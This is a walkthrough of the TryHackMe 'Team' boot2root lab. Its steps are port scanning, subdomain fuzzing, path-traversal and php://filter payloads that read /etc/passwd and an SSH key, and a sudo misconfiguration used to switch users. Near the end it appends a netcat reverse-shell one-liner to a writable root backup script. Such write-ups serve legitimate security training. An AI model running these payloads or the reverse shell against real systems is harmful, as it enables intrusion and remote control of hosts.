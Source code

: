 ```yaml
---
layout: post
title: Walkthrough - Team
published: true
---
```


Security, Boot2Root, Enumeration, Misconfiguration. boot2root machine

[https://tryhackme.com/room/teamcw](https://tryhackme.com/room/teamcw)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.193.39 -vvv``

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

- ``sudo nmap -sV -sT -sC -p21,22,80 10.10.193.39``

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the port 80 apache httpd and viewing the source code we find ``Apache2 Ubuntu Default Page: It works! If you see this add 'team.thm' to your hosts!`` add to ``/etc/hosts`` and view.

- ``gobuster dir -u http://team.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --no-error -t 100 -x txt,php``

- ``robots.txt`` gives us dale.
- we also find scripts.txt in /scripts/ we find in our goboster scan
- which leads us to ``http://team.thm/scripts/script.old``

```
#!/bin/bash
read -p "Enter Username: " ftpuser
read -sp "Enter Username Password: " T3@m$h@r3
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit
```
 
- inside the ftp

```
Dale
        I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles 
```


- there is a hint that is telling us to look for a "dev" site that is under construction. 
- I had to use wfuzz for this as gobuster dns scans never returned any results. ``wfuzz -c --hw 977 -u http://team.thm -H "Host: FUZZ.team.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt``

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload            
=====================================================================

000000001:   200        89 L     220 W      2966 Ch     "www"              
000000019:   200        9 L      20 W       187 Ch      "dev"              
000000085:   200        9 L      20 W       187 Ch      "www.dev"          
000000689:   400        12 L     53 W       422 Ch      "gc._msdcs"    
```

- add ``dev.team.thm`` to the ``/etc/hosts`` file in order to view the dev site that is being refrenced.
-  we can access files here with ../ checking ``curl -s http://dev.team.thm/script.php?page=../../../etc/passwd``
- so we have 2 users dale and gyles. lets see if we can get rsa keys

- ``curl -s http://dev.team.thm/script.php?page=php://filter/convert.base64-encode/resource=script.php``
- ``curl -s http://dev.team.thm/script.php?page=../../../etc/group``

and finally we find the ssh key after trying literally everywhere

- ``curl -s http://dev.team.thm/script.php?page=../../../etc/ssh/sshd_config``
- this ssh key has no password so ``chmod 400 dale.rsa`` and ssh in

* * * 

## What is the user flag?

- ``cat user.txt``

* * * 

## What is the root flag?

- ``sudo -l``

```
User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

- we can ``sudo -u gyles /home/gyles/admin_checks``
- and move to gyles by using ``/bin/sh`` 
- upgrade the terminal with ``python3 -c 'import pty;pty.spawn("/bin/bash")'``
- ``for d in `echo $PATH | tr ":" "\n"`; do find $d -name "*.sh" 2>/dev/null; done``

```
You can write script: /usr/local/bin/main_backup.sh
```

- ``echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f" >> /usr/local/bin/main_backup.sh``

![](/assets/team01.png)

* * * 

